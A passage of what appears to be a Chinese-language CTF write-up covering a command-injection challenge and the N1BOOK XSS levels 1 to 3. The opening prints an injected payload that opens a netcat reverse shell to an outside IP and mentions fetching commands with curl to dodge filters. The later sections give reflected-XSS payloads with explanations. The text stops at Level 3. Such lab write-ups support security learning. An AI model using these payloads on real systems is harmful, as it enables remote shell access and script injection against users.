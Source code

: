 ![image-20220413114849678](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220413114849678.png)

那既然把命令写在文件里面执行可以的话，感觉也可以直接弹shell吧，用payload:`ip=127.0.0.1%0anc 39.108.253.105 8089 -e /bin/sh`试了试发现有被过滤的字符，这么一想确实把命令写在文件里面用curl下载再执行的方式可以绕过一些过滤，题目的环境和官方wp有些不太对的上，也不懂为啥官方wp说不能弹shell，有点迷惑，就这样吧这个题。

## N1BOOK of web XSS闯关 writeup

### Level 1

```
/level1?username=<script>alert()<script>
```

最简单的反射型xss 在url传参中做利用。

官方wp中给出的`/level1?username=xss%3Csvg/onload=alert()`看不懂而且我也没法用这个payload打通...挺迷的，大概意思应该是插入一个svg，然后在svg里面写个onload事件触发alert吧。

### Level 2

还是先尝试一下最简单的xss，发现不行，然后查看一下源码

```javascript
    	if(location.search == ""){
    		location.search = "?username=xss"
    	}
    	var username = 'xss';
    	document.getElementById('ccc').innerHTML= "Welcome " + escape(username);
    
```

传入的username参数被escape函数编码了，escape() 函数可对字符串进行编码，这样就可以在所有的计算机上读取该字符串。 该方法不会对ASCII 字母和数字进行编码，也不会对下面这些ASCII 标点符号进行编码： * @ - _ + . / 。 其他所有的字符都会被转义序列替换。

escape把字符串编码后，那就不会把传入内容直接当js执行了，所以说之前的办法行不通，但是不代表不能XSS，这里漏洞产生的原因是username这个js中的变量受用户直接控制且只有escape这个编码过滤，我们传入`?username=';</script><script>alert()</script>//`，这样js会执行

```javascript
<script type="text/javascript">
var username = '';</script><script>alert()</script>//';
</script>
```

先用一个引号闭合username，然后再用一个`</script>`和前面的`<script>`闭合，后面插入script标签就可以执行任意js函数了。

官方解法是`?username='-alert()`，其实差不多的解法，但是不太懂`-`是什么意思，不过把`-`换成`;`后也可以打通。

### Level 3

```js
    	if(location.search == ""){
    		location.search = "?username=xss"
    	}
    	var username = 'xss';
    	document.getElementById('ccc').innerHTML= "Welcome " + username;
    
```
